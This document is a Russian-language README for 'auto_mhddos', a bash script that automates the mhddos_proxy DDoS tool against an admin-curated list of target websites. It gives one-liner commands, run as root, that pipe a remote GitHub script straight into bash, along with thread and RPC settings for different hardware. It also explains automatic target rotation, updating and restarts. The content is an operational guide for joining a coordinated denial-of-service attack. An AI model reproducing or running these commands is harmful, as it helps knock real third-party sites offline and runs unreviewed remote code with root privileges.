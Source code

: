### auto_mhddos - bash скрипт автоматизирующий [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy)

Перед запуском перейти под пользователя root. Для этого выполнить команду `sudo su`

* Запускается одной командой (one-liner) в Linux і WSL (Windows Subsystem for Linux). Дальнейшее вмешательство со стороны пользователя не обязательно. `curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash`

Команды для разного железа: 

-- Слабое (2 ядра 2 ГБ): `curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash -s -- 1 900 500 50`

-- Среднее: `curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash -s -- 2 900 1000 100`

-- Быстрое: `curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash -s -- 2 900 2000 200`

Значение параметров на примере "bash -s -- 1 900 500 50":
1 - кол-во паралельно запущенных копий mhddos_proxy.
900 - время через которое скрипт перезапускается (900с = 15 мин). Лучше не менять.
500 - количество потоков (threads). Параметр -t в mhddos_proxy.
50 - параметр --rpc в mhddos_proxy.

* Скрипт автоматически устанавливается git, python3, pip, mhddos_proxy, MHDDoS и все зависимости.

* При ручном перезапуске скрипт автоматически обновляет mhddos_proxy і MHDDoS.

* Работает с курируемым админами единым списком [сайтов-целей](https://github.com/Aruiem234/auto_mhddos/blob/main/runner_targets).

* База целей обновляется скриптом каждые 15 мин.

* Если целей много, то они выбираются из списка рандомно, поэтому не обязательно раскидывать пользователей по группам и распределять между ними нагрузку. Рандом все сделает самостоятельно.

* По умолчанию скрипт запускает 2 копии mhddos_proxy. Каждая копия независимо выбирает цель из списка, повторяться они не будут. Для этого в списке должны быть хотя бы две цели.

* Чтобы скрипт запускал больше копий mhddos_proxy, например 3, выполнить следующую команду `curl -s https://raw.githubusercontent.com/KarboDuck/karbo-wiki/master/runner.sh | bash -s -- 3` Если в списке всего две цели (две команды, начинающиеся на "runner.py"), то запускать 3 копии нет смысла. Вреда правда тоже не будет. Скрипт возьмет две цели, а третью копию программы просто не запустит.

Теоретически все это позволяет запустить скрипт на ПК/vps и всю остальную работу (обновление, перезапуск) он будет делать самостоятельно.

Рекомендуется использовать на Ubuntu 20.04. Вероятно будет работать на всех Ubuntu начиная с 18.04, а также всех производных Ubuntu и WSL2.

Чтобы завершить скрипт. Простой закройте окно с терминало. ИЛИ. В другом терминале выполните команду "pkill -f python3", потом в основном терминале нажмите CTRL + C.
